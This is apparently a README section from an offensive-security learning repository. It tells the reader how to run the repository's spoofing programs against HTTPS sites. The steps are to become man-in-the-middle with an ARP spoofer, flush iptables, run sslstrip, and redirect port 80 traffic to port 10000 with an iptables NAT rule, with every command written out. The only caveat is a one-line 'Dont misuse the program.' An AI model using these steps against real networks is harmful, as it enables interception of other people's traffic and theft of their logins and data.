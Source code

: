 The programs (which we are using on websites) will work only for http sites. 
In order to run those programs on HTTPS sites we follow the following instructions:
## Steps to execute the program:

1. <ins> Become man-in-the-middle</ins>: In order to be a man-in-the-middle, you 
need to execute the ARP Spoofer.
 
2. <ins>flush the iptables:</ins>
        
		'''
		iptables --flush
		''' 

3. <ins>Running sslstrip:</ins>
For this just type the command 
		
		'''
		sslstrip
		'''

4. Run the following command:
		
		'''
		iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 10000
		'''

5. Then run the program (like DNS_spoofer) in the same way as executed previously.
6. Dont forget to change port 80 to port 10000 at those places where port 80 has been used.   

![sslstrip](https://user-images.githubusercontent.com/68290275/91204652-0363d500-e722-11ea-8cce-048ffe39a243.jpg)
image_source: zsecurity.org

### Note:

- The program is to be run through command line (linux).
- Dont misuse the program.
